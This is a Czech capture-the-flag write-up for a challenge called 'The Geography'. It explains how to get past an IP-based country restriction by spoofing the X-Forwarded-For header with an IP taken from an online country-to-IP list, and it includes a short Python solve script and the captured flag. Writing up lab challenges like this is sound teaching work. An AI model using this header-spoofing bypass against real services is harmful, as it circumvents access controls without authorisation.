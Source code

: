 # The Geography

## Zadání

```
Hi Expert,

the web site accessible via http://challenges.thecatch.cz/geography has some kind of access protection based on used IP addres. Try to overcome this obstacle and find out what is behind it.

Good Luck!

Hint: You can change your IP address, right? At least, the server can think so.
```

## Řešení

* Spuštění `curl http://challenges.thecatch.cz/geography` vypíše:

```
Challenge task : Try to visit again from IN, India
Challenge timeout (sec) : 120
```

* Úkolem tedy je navštívit web do 120 sekund z Indie
* Nový curl ovšem zobrazí požadavek na návštěvu z jiné země. Protokol HTTP je totiž bezstavový - pro autorizaci se používa cookie (viz úlohy Berserker's Web z roku 2019)
* Řešení může být buď využití nějakého "free proxy" serveru a nebo zkusit podvrhnout hlavičku `X-Forwarded-For` (https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/X-Forwarded-For)
* Zkusil jsem podvrhnout hlavičku a IP adresu zjistit automaticky ze stránek http://www.iwik.org/ipcountry/

## Poznámka

Server mi dlouho vracel chybu 500 + prázdný obsah a to jak při pokusu použít `X-Forwarded-For`, tak i při využití proxy. Organizátoři soutěže mi ale potvrdili, že úloha funguje správně - je zajímavé že po obdržení této zprávy začal server odpovídat správně. Z následné komunikace s autory navíc vyplynulo, že zamýšlené řešení předpokládá použití proxy serveru a nikoliv jen podvržení hlavičky - které ovšem vede k cíli zjevně také :)


## Program pro výpis vlajky

[solve.py](solve.py)
```python
import requests

def getip(c):
    r = requests.get('https://www.iwik.org/ipcountry/%s.cidr' % c)
    a = r.text.split('\n')[1].strip()
    return a.split('/')[0]


r = requests.get('http://challenges.thecatch.cz/geography')

c = r.text.split(' from ')[1].split(',')[0]
print(c)

c = getip(c)

h = {'X-Forwarded-For': c}
r = requests.get('http://challenges.thecatch.cz/geography', cookies=r.cookies, headers=h)

print(r.text)

```

## Výstup
```
ZA
FLAG{OlFY-P2U0-86he-qU4q}
```
